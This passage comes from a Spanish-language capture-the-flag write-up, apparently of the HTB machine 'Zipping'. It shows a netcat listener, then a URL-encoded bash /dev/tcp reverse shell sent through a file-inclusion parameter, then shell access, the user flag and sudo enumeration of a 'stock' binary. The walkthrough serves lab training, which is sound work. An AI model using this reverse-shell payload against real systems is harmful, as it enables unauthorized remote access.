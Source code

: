 ¡Conseguimos al fin una Web Shell!
![Write-up Image](images/Screenshot_15.png)

Si nos ponemos en escucha con `netcat`
```shell
$ sudo rlwrap -cEr nc -lvnp 443
listening on [any] 443 ...
```

Podemos tratar de mandarnos una Reverse Shell
```
http://10.129.229.87/shop/index.php?page=/dev/shm/pointed&cmd=bash%20-c%20%22bash%20-i%20%3E%26%20/dev/tcp/10.10.14.80/443%200%3E%261%22
```

```shell
$ sudo rlwrap -cEr nc -lvnp 443
listening on [any] 443 ...
connect to [10.10.14.80] from (UNKNOWN) [10.129.229.87] 39240
bash: cannot set terminal process group (1098): Inappropriate ioctl for device
bash: no job control in this shell
rektsu@zipping:/var/www/html/shop$
```

Podemos ver la flag de usuario.
```shell
rektsu@zipping:/home/rektsu$ cat user.txt
cat user.txt
8de5cae4a28aeac59....
```

# Privilege Escalation
Enumerando la máquina, vemos que podemos ejecutar como el usuario que queramos el binario `stock`

```shell
rektsu@zipping:/$ sudo -l
sudo -l
Matching Defaults entries for rektsu on zipping:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User rektsu may run the following commands on zipping:
    (ALL) NOPASSWD: /usr/bin/stock
```

Me pide una password.
```shell
rektsu@zipping:/$ sudo /usr/bin/stock test
sudo /usr/bin/stock test

Enter the password: Invalid password, please try again.
```
